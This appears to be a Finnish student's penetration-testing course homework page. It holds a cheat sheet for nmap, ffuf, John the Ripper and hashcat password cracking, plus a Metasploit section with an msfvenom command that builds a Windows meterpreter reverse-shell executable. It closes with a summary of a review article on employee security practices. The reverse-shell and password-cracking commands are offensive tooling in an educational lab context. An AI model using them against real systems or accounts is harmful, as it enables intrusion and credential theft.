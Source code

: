 # h6 Lähtölaskenta

Lipunryöstö lähestyy, ja samalla kurssin päätös. Nyt valmistaudutaan lipunryöstöön, ja kurssin jälkeiseen elämään. Tieteellisten artikkeleiden silmäily auttaa oppariaiheen valinnassa. Harjoitusmaalit opettavat käytännön hakkerointia.

## a) Oma Cheatsheet

# nmap : https://www.stationx.net/nmap-cheat-sheet/

    Yksinkertainen skannaus yhdelle IP-osoitteelle:
    nmap <IP-osoite>

    Skannaus useille IP-osoitteille:
    nmap <IP-osoite1> <IP-osoite2> <IP-osoite3> ...
    
    Skannaus IP-osoitealueelle:
    nmap <alkuosoite>-<loppuosoite>
    Esim: nmap 192.168.1.1-254

    Skannaus käyttäen CIDR-notaatiota:
    nmap <verkkopolkun-IP>/<maski-bittien-määrä>
    Esim: nmap 192.168.1.0/24

    Skannaus yhdestä tai useammasta IP-osoitteesta, jotka on lueteltu tiedostossa:
    nmap -iL <tiedoston-nimi>

    Skannaus yhdestä tai useammasta satunnaisesti valitusta IP-osoitteesta:
    nmap -iR <lukumäärä>
    Esimerkiksi: nmap -iR 100

    Skannaus tietyn palvelimen kaikkia IP-osoitteita:
    nmap <verkkotunnus>
    Esim: nmap google.fi

    Skannauksen tekeminen, joka ohittaa käyttöoikeuden tarkistukset ja on nopeampi:
    nmap -Pn <IP-osoite>




# fuff: https://cheatsheet.haax.fr/web-pentest/tools/ffuf/


    ffuf -w /usr/share/wordlists/wfuzz/general/common.txt -u http://127.0.0.2:8000/FUZZ # 

Selitetty:

/fuff : ajaa ffuf ohjelman
-w : mitä sanalistaa ohjelma käyttää
/usr/share/wordlists/wfuzz/general/common.txt : sanalistani sijainti
-u : määrittää kohteen
http:127.0.0.2:8000/FUZZ : fuzz sanaan ohjelma kokoeilee sanalistan sanat

# Jhon the ripper: https://www.stationx.net/how-to-use-john-the-ripper/ , https://terokarvinen.com/2023/crack-file-password-with-john/

Työkalun asennus ja ympäristön valmistelu:

    sudo apt-get update
    sudo apt-get -y install git build-essential libssl-dev
    git clone --depth=1 https://github.com/openwall/john.git
    cd john/src/
    configure && make -s clean && make -sj4
    cd ../run/

Sanakirjojen lataaminen ja käyttäminen:

    wget https://github.com/danielmiessler/SecLists/raw/master/Passwords/Leaked-Databases/rockyou.txt.tar.gz
    tar xf rockyou.txt.tar.gz
    rm rockyou.txt.tar.gz

Hash-tyypin tunnistaminen ja valmistelu:

    john --format=raw-md5 --wordlist=rockyou.txt hashfile.txt

Zip-tiedostojen salasanojen murtaminen:

    zip2john tero.zip > tero.zip.hash
    john --wordlist=rockyou.txt tero.zip.hash

Erilaiset murtomenetelmät:

    john --single hashfile.txt
    john --incremental hashfile.txt
    john --wordlist=/path/to/wordlist.txt --format=raw-sha1 hashfile.txt

Tulosten tarkistaminen:

    john --show tero.zip.hash


    

# hashcat: https://denizhalil.com/2023/11/01/hashcat-password-cracking/ , https://terokarvinen.com/2022/cracking-passwords-with-hashcat/

luo/saa/pura:

    sudo apt-get update
    sudo apt-get -y install hashid hashcat wget
    mkdir hashed
    cd hashed

    wget https://github.com/danielmiessler/SecLists/raw/master/Passwords/Leaked-Databases/rockyou.txt.tar.gz
    tar xf rockyou.txt.tar.gz
    rm rockyou.txt.tar.gz

tunnista:

    hashid -m 6b1628b016dff46e6fa35684be6acc96

Murra salasana:

    hashcat -m 0 -a 0 '6b1628b016dff46e6fa35684be6acc96' rockyou.txt -o solved.txt

Tarkista murrettu salasana:

    cat solved.txt
    hashcat -m 0 6b1628b016dff46e6fa35684be6acc96 rockyou.txt



# msfvenom/metasploitable : https://www.comparitech.com/net-admin/metasploit-cheat-sheet/

    msfconsole
    use multi/handler/payload
    SET payload 
    SET LHOST 
    SET LPORT 
    run -j

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.x LPORT=80 -f exe > payload.exe

    sessions -i 1

# sql injektio: https://portswigger.net/web-security/sql-injection/cheat-sheet

# b) Review. Etsi ja tiivistä vertaisarviotu katsausartikkeli valitsemaltasi kyberturvallisuuden tai hakkeroinnin alalta.


![image](https://github.com/SakuKarp/Tunkeutumistestaus/assets/148875105/63404ea1-14f4-4e9b-9450-15a75d744073)


https://academic.oup.com/cybersecurity/article/10/1/tyae001/7588826


Ennen COVIDia organisaatioita ja työntekijöitä uhkasivat monenlaiset haitat työntekijöiden huonojen tietoturvakäytäntöjen vuoksi

Tekniset ratkaisut eivät kykene estämään nollapäivän hyökkäyksiä ja jatkuvia uhkia, joten ihmisten on osallistuttava suojaamaan järjestelmiä

Tehokkaat tietoturvakäytännöt voivat sisältää palomuurien ja virustorjuntaohjelmien käytön, yksityisyysasetusten käytön ja haitallisten linkkien välttämisen

Organisaatiot järjestävät tietoisuuden lisäämis- ja koulutusohjelmia hyvien tietoturvakäytäntöjen varmistamiseksi, mutta näissä ohjelmissa on usein ongelmia

Monilla organisaatioilla oli ennen COVIDia vähemmän kuin optimaaliset tietoturvakäytännöt ja monet työntekijät eivät olleet valmiita työskentelemään turvallisesti kotoa pandemian huippukaudella

Uudet uhkat, kuten COVID-19-teemaiset hyökkäykset ja nollapäivän hyökkäykset, lisäsivät kyberriskejä pandemian aikana









# c) Valmiina lipunryöstöön.


## References



https://academic.oup.com/cybersecurity/article/10/1/tyae001/7588826

https://jfp.csc.fi/web/haku#!PublicationInformationView/id/84000



